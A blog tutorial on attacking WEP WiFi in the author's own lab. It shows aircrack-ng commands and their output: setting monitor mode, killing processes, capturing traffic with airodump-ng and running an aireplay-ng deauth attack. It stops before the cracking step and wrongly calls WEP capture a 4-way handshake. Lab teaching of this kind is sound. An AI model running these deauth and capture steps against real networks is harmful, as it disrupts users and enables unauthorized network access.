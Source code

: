 ```yaml
---
layout: post
title: Hacking (WEP)
categories:
  - Wifi Pentesting
---
```



<p>Before we start attacknig WEP let's learn about it's history a bit. (WEP) stands for Wired Equivalent Privacy, which is a security protocol, specified in the IEEE Wireless Fidelity (Wi-Fi) standard, 802.11b, that is designed to provide a wireless local area network (WLAN) with a level of security and privacy comparable to what is usually expected of a wired LAN.</p>

<br>**WEP** Uses RC4 stream cipher and 64-or 128-bit keys. Static master key must be manually entered into each device.
<br>WEP was introduced in 1999. Within a few years, several security researchers discovered flaws in its design. The "24 additional bits of system-generated data" mentioned above is technically known as the Initialization Vector and proved to be the most critical protocol flaw. With simple and readily available tools, a hacker can determine the WEP key and use it to break into an active Wi-Fi network within a matter of minutes.

<p>Vendor-specific enhancements to WEP like WEP+ and Dynamic WEP were implemented in attempts to patch some of the shortcomings of WEP, but these technologies are also not viable today.</p>
<br>Let's now setup our lab and for which I am going to use a Linksys08362 or you can use any wifi router which offers WEP/WPA/WPA2/WPA2-Enterprise and we need a Kali, and a Wifi adapter which should have Packet injection capability, And for that I am using TP-Link TL-WN722N.

<br> Go to your Wifi router setting and configure it to WEP,
![WEP-1](https://teckk2.github.io/assets/images/Wifi/WEP-1.1.png)
![WEP-2](https://teckk2.github.io/assets/images/Wifi/WEP-2.png)
<br>There you will see two options one to create encryption keys with **40 / 64-bit (10 hex digits)** and one with **104 / 128-bit (26 hex digits)** this is the security feature which they added before WPA was formally adopted in 2003. This option is not available in many routers/old.

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># iwconfig 
<br>wlan0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IEEE 802.11  ESSID:off/any  
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">Mode:Managed</font>&nbsp;&nbsp;Access&nbsp;Point:&nbsp;Not-Associated&nbsp;&nbsp;&nbsp;Tx-Power=20 dBm   
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Retry short limit:7&nbsp;&nbsp;&nbsp;RTS thr:off&nbsp;&nbsp;&nbsp;Fragment thr:off
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Encryption key:off
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Power Management:off</p>
          
<p>lo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no wireless extensions.</p>

<p>eth0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no wireless extensions.</p>

<font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#
</div>
</font>

<br>As you can see in our wifi adapter which is **Wlan0** the mode is showing: Managed and to dump the data from the envirement and for packet injection or to do other stuff we need **Monitor** Mode and to do that we can use a beautiful set of tool airmon-ng which will set out wifi adpater to monitor mode.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># airmon-ng start wlan0</p>

<p>Found 3 processes that could cause trouble.
<br>If airodump-ng, aireplay-ng or airtun-ng stops working after
<br>a short period of time, you may want to run 'airmon-ng check kill'</p>

<p>&nbsp;&nbsp;PID Name
<br>&nbsp;&nbsp;518 NetworkManager
<br>&nbsp;&nbsp;741 wpa_supplicant
<br>&nbsp;4814 dhclient</p>

<p>PHY&nbsp;Interface	Driver&nbsp;&nbsp;Chipset</p>

<p>phy0	wlan0&nbsp;&nbsp;ath9k_htc&nbsp;Atheros Communications, Inc. AR9271 802.11n</p>

<p>&nbsp;&nbsp;(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
<br>&nbsp;&nbsp;(mac80211 station mode vif disabled for [phy0]wlan0)</p>

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># iwconfig 
<br><font color="53E100">wlan0mon</font>&nbsp;&nbsp;IEEE 802.11&nbsp;&nbsp;<font color="ffff00">Mode:Monitor</font>&nbsp;&nbsp;Frequency:2.457 GHz&nbsp;&nbsp;Tx-Power=20 dBm   
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Retry short limit:7&nbsp;&nbsp;&nbsp;RTS thr:off&nbsp;&nbsp;&nbsp;Fragment thr:off
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Power Management:off</p>
          
<p>lo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no wireless extensions.</p>

<p>eth0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no wireless extensions.</p>

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Now as you can see the Mode has been chnaged to Monitor and the adapter name is also changed from wlan0 to wlan0mon, Now to proceed further we need to kill some process which may cause problem while we scan for availbale network or dump the data. to do that we just need to use **airmon-ng check kill** and it will kill the process which may cause problemin our way.

<font size="1">
<div style="height:180px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># airmon-ng check kill</p>

<p>Killing these processes:</p>

<p>&nbsp;&nbsp;PID Name
<br>&nbsp;&nbsp;741 wpa_supplicant
<br>&nbsp;4814 dhclient</p>

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Now type **<font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># airodump-ng wlan0mon** and we will start seeing Wifi APs which is available in our nearby surrounding. 
![3](https://teckk2.github.io/assets/images/Wifi/3.PNG)
<br>As we can see airodump is giving some usefull information for now let's only focus on our test setup as our ESSID which is **Teck_k2** which I set up for this blog and it's **BSSID(48:F8:B3:76:E6:E4)** which is the mac address of the AP, and it is running on **Channel 5**. It will be interesting if you can learn about Wlan Channels and learn about on which frquency which channel run like **2412Mhz** in channel one, then after the gave of 5 on **2417Mhz** it's channle 2, and so on.. from [Wiki](https://en.wikipedia.org/wiki/List_of_WLAN_channels) And also learn on which country which channle is ban.

<br>Now as we know the required information we can now check and analyse the traffic of our perticular AP and check how many machines are connected to it using Wifi.

<br>**<font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># airodump-ng --bssid 48:F8:B3:76:E6:E4 --essid Teck_k2 -c 5 wlan0mon**

![4](https://teckk2.github.io/assets/images/Wifi/4.PNG)
<br>As you can see with our target AP I have connected my another Laptop for testing
<br>So now we need to capture the connection which is between the client and the AP, and for that we will create a deauth attack and when the client will try to reconnect to it's it will do a 4-way handshake and collect the IVs and that's what we need and later we can crack it, to understand this handshake process you can refer to [wiki](https://en.wikipedia.org/wiki/IEEE_802.11i-2004).
<br>Now we can do deauth attack on our target AP using **aireplay-ng**
<br>**<font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># aireplay-ng -0 0 -a 48:F8:B3:76:E6:E4 -e Teck_k2 -h 98:22:EF:F0:90:79 wlan0mon**

<br>Where -a we used for BSSID, E is for SSID and -h is for station/client mac address, if we don't specify a client then it will deauth all the connected clients of the target IP and -0 0 is for deauth untill we stop it manually or we can also set the limit like 100 after -0 100 to send limited number of deauth.

<br>before starting the deauth we need to capture the traffic using airodump and write into a file with (-w) flag
<br>**<font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># airodump-ng --bssid 48:F8:B3:76:E6:E4 --essid Teck_k2 -c 5 wlan0mon -w WEPCrack**










<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
